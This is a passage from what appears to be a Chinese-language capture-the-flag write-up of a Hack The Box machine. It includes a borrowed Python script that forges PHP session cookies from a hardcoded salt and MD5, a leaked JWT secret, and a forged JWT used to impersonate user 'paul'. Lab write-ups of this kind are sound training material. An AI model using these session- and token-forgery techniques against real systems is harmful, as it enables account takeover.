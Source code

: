 ```
print("Generated Session Cookie:", session_cookie)
```

![](/htb_img/WEBRESOURCE7b9afb35c9b08cf526a1edc1e62bc361image.png)

生成是生成了，但是无法操作成功：

换成别人的成功了：

```
from requests import get
from hashlib import md5

username = "paul"

for i in username:
   key = "s4lTy_stR1nG_" + i + "(!528./9890"
   sessid = username + md5(key.encode()).hexdigest()
   cookie = { "PHPSESSID" : sessid }
   resp = get("http://10.10.10.228/portal/php/files.php", cookies=cookie,
allow_redirects=False)
   if resp.status_code != 302:
      print(f"Valid session ID: {sessid}")

```

替换成功后就成功看到了文件管理功能：

![](/htb_img/WEBRESOURCE359a8464b0c61ba8e6259ce047288941image.png)

但是提示权限不足：

![](/htb_img/WEBRESOURCE6c040c485c6a8ec52c1e26472a8abfb3image.png)

看来是之前就看到了的jwt的问题了，但是jwt的key，我们是可以看到的，就可以伪造：

6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e

![](/htb_img/WEBRESOURCE4505b48f08482ce5257c0eedd8d3a7e5image.png)

伪造出来为：

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.7pc5S1P76YsrWhi_gu23bzYLYWxqORkr0WtEz_IUtCU

看样子是哪里报错了？

![](/htb_img/WEBRESOURCEac896b1cf79c8284c566c8177d96d3c5image.png)

好像是有拦截：

![](/htb_img/WEBRESOURCE7609f31168f7cf8a6b60ad5ce23ffc51image.png)

![](/htb_img/WEBRESOURCEf5dd9be2220e2ac0b4d5ab7d3541b870image.png)
